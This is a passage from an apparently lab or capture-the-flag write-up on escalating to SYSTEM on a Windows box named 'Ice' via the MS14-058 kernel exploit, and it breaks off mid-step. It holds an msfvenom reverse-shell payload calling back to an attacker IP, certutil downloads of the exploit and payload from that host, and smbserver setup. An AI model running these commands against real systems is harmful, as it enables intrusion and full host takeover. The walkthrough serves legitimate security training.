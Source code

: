 ```
It appears that by using the Win64.exe executable found at the repository, as long as we can get it onto the box, we should be able to run commands as NT AUTHORITY\SYSTEM (root). For example:

```
Win64.exe whoami
nt authority\system
```

### Using Gitmaninc's MS14-058 Privilege Escalation from SecWiki

Firstly we need to create a new reverse shell that we can execute on the box locally. To do this we'll run this msfvenom command:

``` 
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.4.18.56 LPORT=421 -f exe -b '\x00\x0a\x0d' -o paperboy.exe
```

The only things we change here from the previous shell is to use a different port ```LPORT=421``` and ```-f exe``` to ensure we get an executable as the output. ```-o paperboy.exe``` outputs the shell a file with the name 'paperboy.exe'.

Once we've done this we can grab the archive for the MS14-058 exploit from:
<https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS14-058/CVE-2014-4113-Exploit.rar>

We can extract this archive and grab Win64.exe from it. We move the paperboy.exe reverse shell and the Win64.exe file to a folder. Next we want to upload the files to the box. 

##### Transferring exploit code to the box

###### With CertUtil

In this case from the directory ```~/Boxes/Ice/share``` on our attack box we can host a Python HTTP server with ```python3 -m http.server 8000```.

From our shell on the box we type the following to transfer our files from our attack box to Ice:

```
C:\Users\Dark\Downloads>certutil.exe -urlcache -f http://10.4.18.56:8000/Win64.exe Win64.exe
certutil.exe -urlcache -f http://10.4.18.56:8000/Win64.exe Win64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\Dark\Downloads>certutil.exe -urlcache -f http://10.4.18.56:8000/paperboy.exe paperboy.exe
certutil.exe -urlcache -f http://10.4.18.56:8000/paperboy.exe paperboy.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

###### With smbserver.py
First we can copy smbserver.py from <https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py> into our directory with the paperboy.exe and Win64.exe executables:

```
cp /opt/impacket/examples/smbserver.py ~/Boxes/Ice/share
```

or

```
cd ~/Boxes/Ice/share
wget https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py
```

Then we can execute the script to start the server from that directory:
```